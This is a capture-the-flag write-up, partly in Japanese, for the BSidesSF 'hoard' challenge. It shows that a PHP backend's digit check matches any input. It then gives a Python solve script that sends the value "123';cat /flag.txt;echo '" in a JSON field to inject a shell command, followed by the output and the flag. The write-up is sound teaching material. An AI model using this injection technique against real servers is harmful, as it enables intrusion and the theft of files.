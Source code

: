 # hoard

Can you raid the dragon's hoard??
Flag Path: /flag.txt

https://hoard-049015ac.challenges.bsidessf.net/


![](image.png)

backend.phpが与えられる

```
preg_match('/[0-9]*/', $data['gold'])
```
これは「数字が0文字以上ある」にマッチするので、どんな文字列でもマッチします。
例: 'ABC', '123abc', ' ; ls ', 何でもOK


## solution

コマンドインジェクション
artifacts に "123';cat /flag.txt;echo '" を仕込んで コマンドインジェクションする

solve.py

```
import requests
import json
import re

# 対象URL
URL = "https://hoard-049015ac.challenges.bsidessf.net/backend.php"

# POST送信するJSONデータ（command injection）
data = {
    "hoardType": "artifact",
    "gold": "123",
    "gems": "123",
    "artifacts": "123';cat /flag.txt;echo '"
}

# POST送信
res = requests.post(URL, json=data)

# レスポンスチェック
if res.status_code == 200 and res.headers.get("Content-Type", "").startswith("application/json"):
    try:
        response_json = res.json()
        message = response_json.get("message", "")
        print("[+] Response message:", message)

        # フラグ抽出
        flag_match = re.search(r"CTF\{.*?\}", message)
        if flag_match:
            print("[+] 🎯 Flag found:", flag_match.group(0))
        else:
            print("[-] No flag found in response.")
    except Exception as e:
        print(f"[-] Failed to parse response: {e}")
else:
    print(f"[-] HTTP error: {res.status_code}")

```

出力
```
$ python3 solve.py 
[+] Response message: Hoard valuation logged and valued at <tt>(123 + 123 + 123) / 3
CTF{a-dragons-hoard-is-all-he-has-dont-take-it-away}

</tt>
[+] 🎯 Flag found: CTF{a-dragons-hoard-is-all-he-has-dont-take-it-away}
```


## flag

`CTF{a-dragons-hoard-is-all-he-has-dont-take-it-away}`